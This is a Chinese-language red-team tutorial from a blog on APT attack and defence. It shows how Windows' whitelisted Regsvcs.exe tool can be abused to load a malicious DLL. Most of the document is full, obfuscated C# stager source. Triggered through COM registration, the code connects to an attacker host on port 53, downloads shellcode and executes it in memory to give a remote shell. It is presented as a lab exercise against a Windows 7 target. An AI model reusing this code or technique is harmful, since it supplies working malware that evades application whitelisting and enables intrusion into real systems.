


# 专注APT攻击与防御
https://micropoor.blogspot.com/

**Regsvcs简介：**

Regsvcs为.NET服务安装工具，主要提供三类服务：
* 加载并注册程序集。
* 生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。
* 配置以编程方式添加到类的服务。

**说明：**Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

具体参考微软官方文档：
https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool

基于白名单Regsvcs.exe配置payload：

Windows 7 默认位置：
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe`

**攻击机：**192.168.1.4 Debian

**靶机：**192.168.1.3 Windows 7

**配置攻击机msf：**


**靶机执行：**
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll`


## 附录：Micropoor.cs
**注：x86 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace phwUqeuTRSqn

{

public class mfBxqerbXgh : ServicedComponent { 

public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 

[ComRegisterFunction]

public static void RegisterClass ( string DssjWsFMnwwXL )

{

uXsiCEXRzLNkI.BBNSohgZXGCaD();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string DssjWsFMnwwXL )

{

 uXsiCEXRzLNkI.BBNSohgZXGCaD();

}

} 

public class uXsiCEXRzLNkI

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {

IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);

Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { LbLgipot.Connect(hqbNYMZQr); }

catch { return null;}

byte[] VKQsLPgLmVdp = new byte[4];

LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);

int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);

byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];

int vyPloXEDJoylLbj = 0;

while (vyPloXEDJoylLbj < jbQtneZFbvzK)

 { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}

byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);

Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;

return cyDiPLJhiAQbw;}

static void ZFeAPdN(byte[] hjErkNfmkyBq) {

if (hjErkNfmkyBq != null) {

UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);

UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);

RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);

UInt32 NByrFgKjVjB = 0;

IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);

WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 

public static void BBNSohgZXGCaD() {

byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);

ZFeAPdN(cyDiPLJhiAQbw);

} } }
```
>   Micropoor
